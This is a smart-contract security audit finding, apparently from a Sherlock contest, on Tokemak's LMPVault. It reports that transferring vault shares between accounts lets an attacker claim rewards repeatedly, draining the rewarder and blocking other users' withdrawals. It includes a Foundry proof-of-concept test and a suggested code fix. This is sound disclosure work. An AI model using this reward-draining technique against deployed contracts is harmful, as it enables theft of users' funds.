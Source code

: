Long Satin Sealion

high

# Draining funds from Rewarder / Preventing users from withdrawing from LMPVault
## Summary
An attacker is able to drain all funds from the rewarder since the transferring shares are not validated, and the checkpoint for rewards is not properly set before receiving shares. Furthermore, as a result of exploiting this vulnerability the user is not able to withdraw from LMPvault.

## Vulnerability Detail
The problem lies that any user can **transfer his owned shares** from the LMP vault to any user. And subsequently that user who obtains those shares can again **claim for rewards** from the rewarder. The **total supply is unchanged** so that he can **drain all the funds.**
Furthermore, when any other user wants to **withdraw from LMPVault**, the function for **_getReward** is called to the main rewarder. The contract still thinks that the user should get a proper amount of rewards; however, no assets are available in the rewarder, **therefore the call fails** 

### Attack scenario

1. User A, B and Attacker deposit to LMP Vault 1000 shares, now the vault has 3000 shares in total.
2. Admin adds 1000 Tokes to rewarder. 
3. After 10 000 blocks have passed it is possible to claim rewards (Every user should get 333,3333 Tokes)
4. The attacker starts claiming rewards and gets 333,3333 Tokes. However, he sends his shares to another account address controlled by the attacker, this account claims again and repeats transferring/claiming to drain funds. => *The attacker drained all rewards.*
5. Now, user A wants to withdraw from the vault. The proper situation would be that he gets 1000 assets from the LMP vault and 333,3333 Toke from the rewarder. However, no assets are available. => **The withdrawal fails.** 


I have devised a PoC from the previous scenario, which can be added to LMPVault-Withdraw.t.sol.
 
### PoC
```Solidity
function test_stealing_money_from_rewarder() public {
		//@audit-issue not tracking of shares allows draining funds from rewarder
		address alice = makeAddr("Alice");
		address bob = makeAddr("Bob");
		address attacker = makeAddr("attacker");
		address attacker2 = makeAddr("attacker2");
		address attacker3 = makeAddr("attacker3");
		_asset.mint(attacker, 1000);
		_asset.mint(bob, 1000);
		_asset.mint(alice, 1000);

		assertEq(_lmpVault.balanceOf(address(this)), 0);
		assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

		_accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
		_lmpVault.rewarder().addToWhitelist(address(this));
		_lmpVault.rewarder().setTokeLockDuration(0); // TO prevent staking, It is in contract but not in interface so I added it there to IBaseRewarder.sol
		_toke.mint(address(this), 1000e18);
		_toke.approve(address(_lmpVault.rewarder()), 1000e18);
		_lmpVault.rewarder().queueNewRewards(1000e18);

		vm.startPrank(attacker);
		_asset.approve(address(_lmpVault), 1000);
		_lmpVault.deposit(1000, attacker);
		vm.stopPrank();

		vm.startPrank(bob);
		_asset.approve(address(_lmpVault), 1000);
		_lmpVault.deposit(1000, bob);
		vm.stopPrank();

		vm.startPrank(alice);
		_asset.approve(address(_lmpVault), 1000);
		_lmpVault.deposit(1000, alice);
		vm.stopPrank();

		assert(_toke.balanceOf(attacker) == 0);
		assert(_toke.balanceOf(attacker2) == 0);
		assert(_toke.balanceOf(attacker3) == 0);
		assert(_lmpVault.totalSupply() == 3000);

		vm.roll(block.number + 10_000);

		vm.startPrank(attacker);
		_lmpVault.rewarder().getReward();
		_lmpVault.transfer(attacker2, 1000);
		vm.stopPrank();

		vm.startPrank(attacker2);
		_lmpVault.rewarder().getReward();
		_lmpVault.transfer(attacker3, 1000);
		vm.stopPrank();

		vm.startPrank(attacker3);
		_lmpVault.rewarder().getReward();
		vm.stopPrank();

		assert(_toke.balanceOf(attacker) > 0);
		assert(_toke.balanceOf(attacker2) > 0);
		assert(_toke.balanceOf(attacker3) > 0); //@audit-info all rewards were drained from rewarder

		assert(_toke.balanceOf(bob) == 0);
		assert(_toke.balanceOf(alice) == 0);
		//These reverts
		// vm.startPrank(bob);
		// _lmpVault.rewarder().getReward();
		// vm.stopPrank();

		// vm.startPrank(alice);
		// _lmpVault.rewarder().getReward();
		// vm.stopPrank();


		// These reverts too
		// vm.startPrank(bob);
		// _lmpVault.withdraw(1000, bob, bob); //@audit-issue this reverts after we drain rewarder
		// vm.stopPrank();
	}
```

## Impact
The primary vulnerability is that an attacker is able to drain all funds from the rewarder. Afterwards when funds from the rewarder are stolen, any other user (except the attacker) is prevented from withdrawing from the LMP vault. From my perspective this represents a critical issue for your protocol and for all of your users that should be addressed immediately.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L204-L206 
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834C4-L852 - no update before transfer.

## Tool used

Manual Review

## Recommendation
Track all transfers in the rewarder. Update checkpoint - be careful when utilizing user’s balances which are tracked by external entities (as LMP vault).
This issue could be solved by changing the beforeTokenTransfer() function in LMPVault.sol, where you can update a reward checkpoint before transferring tokens between users.
```diff
if (from != address(0)) {
    rewarder.withdraw(from, amount, true); 
+  rewarder.withdraw(to, 0, false) // I think this will update the reward checkpoint before he receives tokens.
}
```